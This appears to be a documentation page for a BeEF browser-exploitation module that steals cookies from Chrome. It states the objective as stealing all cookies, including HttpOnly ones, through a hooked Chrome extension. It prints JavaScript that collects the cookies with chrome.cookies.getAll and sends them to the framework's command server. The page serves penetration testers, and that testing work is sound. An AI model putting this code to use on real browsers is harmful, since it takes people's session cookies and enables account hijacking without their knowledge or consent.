 ## Summary

* **Objective**: Steal cookies
* **Authors**: mh
* **Browsers**: Chrome

* [Code](https://github.com/beefproject/beef/tree/master/modules/chrome_extensions/get_all_cookies)

## Internal Working

Steals all (even HttpOnly) cookies, provided that the hooked extension has cookies access.

Note:
Needs to have installed a Chrome extension with a beef hook / somehow hook a Chrome extension first for this to work.


```js

if (the_url != 'default_all') {
    chrome.cookies.getAll({url:the_url}, function(cookies){
        beef.net.send('<%= @command_url %>', <%= @command_id %>, 'cookies: ' + JSON.stringify(cookies));
    })
} else {
        chrome.cookies.getAll({}, function(cookies){
        beef.net.send('<%= @command_url %>', <%= @command_id %>, 'cookies: ' + JSON.stringify(cookies));
})
```

## Feedback


